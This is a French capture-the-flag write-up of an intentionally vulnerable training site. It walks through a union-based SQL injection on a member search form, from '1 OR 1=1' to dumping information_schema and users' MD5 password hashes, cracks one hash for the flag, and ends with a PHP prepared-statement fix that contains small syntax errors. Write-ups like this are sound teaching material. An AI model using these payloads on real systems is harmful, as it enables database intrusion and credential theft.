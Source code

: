 
# Explications

Dans la page "member", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form  action="#"  method="GET"  data-children-count="1">
<input  type="hidden"  name="page"  value="member">
<input  type="text"  name="id"  style="width:100%;">
<br>
<input  type="submit"  value="Submit"  name="Submit">
</form>
```
On observe que si on laisse le champs vide et que l'on lance une recherche, on obtient une erreur:

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1**

Donc on sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les users s'affichent
<pre>
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce du **First name** et du **Surname**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **users** qui contient les colonnes :
1. user_id
2. first_name
3. last_name
4. town
5. country
6. planet
7. Commentaire
8. countersign

On cherche donc des informations intéressantes.
<code></code>

On try 2 part 2 les champs jusqu'à trouver 2 colonnes intéressante, **Commentaire** et **countersign** qui donnent :

<pre>
ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Barack Hussein
Surname : Obama

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
</pre>

Le password <code>5ff9d0165b4f92b14994e5c685cdce28</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>FortyTwo</pre>
On lower le tout et on applique un Sha256 pour obtenir le flag

# Comment l'éviter?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```